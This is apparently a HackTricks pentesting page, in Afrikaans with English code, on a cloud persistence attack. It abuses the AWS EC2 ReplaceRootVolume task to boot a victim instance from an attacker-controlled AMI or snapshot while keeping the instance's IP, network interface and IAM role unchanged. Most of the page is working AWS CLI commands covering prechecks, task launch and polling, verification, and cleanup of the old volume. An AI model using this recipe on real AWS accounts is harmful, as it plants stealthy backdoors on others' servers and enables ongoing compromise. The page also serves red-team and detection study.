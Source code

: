 # AWS - EC2 ReplaceRootVolume Task (Stealth Backdoor / Persistence)

{{#include ../../../../banners/hacktricks-training.md}}

Misbruik **ec2:CreateReplaceRootVolumeTask** om die root EBS-volume van 'n lopende instansie te vervang met een wat uit 'n deur die aanvaller beheerde AMI of snapshot herstel is. Die instansie word outomaties herbegin en hervat met die deur die aanvaller beheerde root-lêerstelsel, terwyl ENIs, private/public IPs, aangehegte nie-root-volumes, en die instansie se metadata/IAM role behoue bly.

## Vereistes
- Teiken-instansie is EBS-backed en lopend in dieselfde streek.
- Kompatibele AMI of snapshot: dieselfde argitektuur/virtualisering/boot-modus (en produk-kodes, indien enige) as die teiken-instansie.

## Voorafkontroles
```bash
REGION=us-east-1
INSTANCE_ID=<victim instance>

# Ensure EBS-backed
aws ec2 describe-instances   --region $REGION --instance-ids $INSTANCE_ID   --query 'Reservations[0].Instances[0].RootDeviceType' --output text

# Capture current network and root volume
ROOT_DEV=$(aws ec2 describe-instances --region $REGION --instance-ids $INSTANCE_ID   --query 'Reservations[0].Instances[0].RootDeviceName' --output text)
ORIG_VOL=$(aws ec2 describe-instances --region $REGION --instance-ids $INSTANCE_ID   --query "Reservations[0].Instances[0].BlockDeviceMappings[?DeviceName==\`$ROOT_DEV\`].Ebs.VolumeId" --output text)
PRI_IP=$(aws ec2 describe-instances --region $REGION --instance-ids $INSTANCE_ID   --query 'Reservations[0].Instances[0].PrivateIpAddress' --output text)
ENI_ID=$(aws ec2 describe-instances --region $REGION --instance-ids $INSTANCE_ID   --query 'Reservations[0].Instances[0].NetworkInterfaces[0].NetworkInterfaceId' --output text)
```
## Vervang root vanaf AMI (verkieslik)
```bash
IMAGE_ID=<attacker-controlled compatible AMI>

# Start task
TASK_ID=$(aws ec2 create-replace-root-volume-task   --region $REGION --instance-id $INSTANCE_ID --image-id $IMAGE_ID   --query 'ReplaceRootVolumeTaskId' --output text)

# Poll until state == succeeded
while true; do
STATE=$(aws ec2 describe-replace-root-volume-tasks --region $REGION     --replace-root-volume-task-ids $TASK_ID     --query 'ReplaceRootVolumeTasks[0].TaskState' --output text)
echo "$STATE"; [ "$STATE" = "succeeded" ] && break; [ "$STATE" = "failed" ] && exit 1; sleep 10;
done
```
Alternatief deur 'n snapshot te gebruik:
```bash
SNAPSHOT_ID=<snapshot with bootable root FS compatible with the instance>
aws ec2 create-replace-root-volume-task   --region $REGION --instance-id $INSTANCE_ID --snapshot-id $SNAPSHOT_ID
```
## Bewyse / Verifikasie
```bash
# Instance auto-reboots; network identity is preserved
NEW_VOL=$(aws ec2 describe-instances --region $REGION --instance-ids $INSTANCE_ID   --query "Reservations[0].Instances[0].BlockDeviceMappings[?DeviceName==\`$ROOT_DEV\`].Ebs.VolumeId" --output text)

# Compare before vs after
printf "ENI:%s IP:%s
ORIG_VOL:%s
NEW_VOL:%s
" "$ENI_ID" "$PRI_IP" "$ORIG_VOL" "$NEW_VOL"

# (Optional) Inspect task details and console output
aws ec2 describe-replace-root-volume-tasks --region $REGION   --replace-root-volume-task-ids $TASK_ID --output json
aws ec2 get-console-output --region $REGION --instance-id $INSTANCE_ID --latest --output text
```
Verwag: ENI_ID en PRI_IP bly dieselfde; die root volume ID verander van $ORIG_VOL na $NEW_VOL. Die stelsel boot met die lêerstelsel van die attacker-controlled AMI/snapshot.

## Notas
- Die API vereis nie dat jy die instansie handmatig stop nie; EC2 orkestreer 'n herbegin.
- Standaard word die vervangde (ou) root EBS-volume losgemaak en in die rekening gelaat (DeleteReplacedRootVolume=false). Dit kan vir rollback gebruik word of moet verwyder word om koste te vermy.

## Rollback / Opruiming
```bash
# If the original root volume still exists (e.g., $ORIG_VOL is in state "available"),
# you can create a snapshot and replace again from it:
SNAP=$(aws ec2 create-snapshot --region $REGION --volume-id $ORIG_VOL   --description "Rollback snapshot for $INSTANCE_ID" --query SnapshotId --output text)
aws ec2 wait snapshot-completed --region $REGION --snapshot-ids $SNAP
aws ec2 create-replace-root-volume-task --region $REGION --instance-id $INSTANCE_ID --snapshot-id $SNAP

# Or simply delete the detached old root volume if not needed:
aws ec2 delete-volume --region $REGION --volume-id $ORIG_VOL
```
{{#include ../../../../banners/hacktricks-training.md}}
